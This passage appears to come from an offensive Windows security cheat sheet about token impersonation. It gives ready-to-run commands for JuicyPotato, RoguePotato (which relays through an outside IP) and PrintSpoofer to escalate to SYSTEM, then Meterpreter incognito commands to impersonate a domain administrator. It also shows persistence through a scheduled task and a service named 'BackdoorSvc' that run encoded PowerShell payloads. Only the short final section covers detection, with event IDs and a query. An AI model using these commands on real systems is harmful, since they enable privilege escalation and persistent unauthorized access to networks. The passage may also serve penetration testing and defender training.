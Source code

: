 ### Potato Attacks for Token Impersonation
```bash
# If service account has SeImpersonatePrivilege
# Use potato attacks to escalate to SYSTEM

# JuicyPotato (Windows 7-10, Server 2008-2016)
JuicyPotato.exe -l 1337 -p cmd.exe -t * -c {CLSID}

# RoguePotato (newer systems)
RoguePotato.exe -r 192.168.1.100 -e "cmd.exe" -l 1337

# PrintSpoofer (Windows 10/2019+)
PrintSpoofer.exe -i -c cmd.exe

# After gaining SYSTEM, look for admin tokens
load incognito
list_tokens -u
impersonate_token DOMAIN\\Administrator
```

## Token Persistence

### Method 1: Schedule Task with Token
```bash
# Create persistent access using stolen tokens
schtasks /create /tn "UpdateTask" /tr "powershell.exe -enc <encoded_payload>" /sc onlogon /ru domain\administrator /rp password
```

### Method 2: Service Creation
```bash
# Create service with impersonated token context
sc create BackdoorSvc binpath= "cmd.exe /c powershell.exe -enc <payload>" obj= "domain\administrator" password= "password"
```

## Detection and Evasion

### Token Impersonation Detection
```bash
# Event IDs to monitor:
# - 4624: Successful logon (look for logon type 3 with unusual accounts)
# - 4648: Logon using explicit credentials
# - 4672: Special privileges assigned to new logon
# - 4769: Kerberos service ticket requested (if using domain tokens)

# PowerShell detection example
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4648} | 
Where-Object {$_.Properties[5].Value -ne $_.Properties[6].Value} |
Select-Object TimeCreated, @{Name='SourceUser';Expression={$_.Properties[5].Value}}, @{Name='TargetUser';Expression={$_.Properties[6].Value}}
```
